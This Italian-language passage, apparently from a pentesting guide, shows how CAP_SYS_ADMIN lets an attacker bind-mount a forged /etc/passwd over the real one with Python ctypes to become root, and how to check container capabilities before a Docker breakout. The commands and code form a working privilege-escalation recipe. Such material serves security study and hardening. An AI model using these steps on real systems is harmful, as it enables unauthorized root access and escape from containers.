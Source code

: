 **Esempio con binario**
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_admin+ep
```
Utilizzando python puoi montare un file _passwd_ modificato sopra il vero file _passwd_:
```bash
cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
```
E infine **montare** il file `passwd` modificato su `/etc/passwd`:
```python
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/path/to/fake/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```
E sarai in grado di **`su` come root** utilizzando la password "password".

**Esempio con ambiente (Docker breakout)**

Puoi controllare le capacità abilitate all'interno del contenitore docker usando:
```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
All'interno dell'output precedente puoi vedere che la capacità SYS_ADMIN è abilitata.

- **Mount**
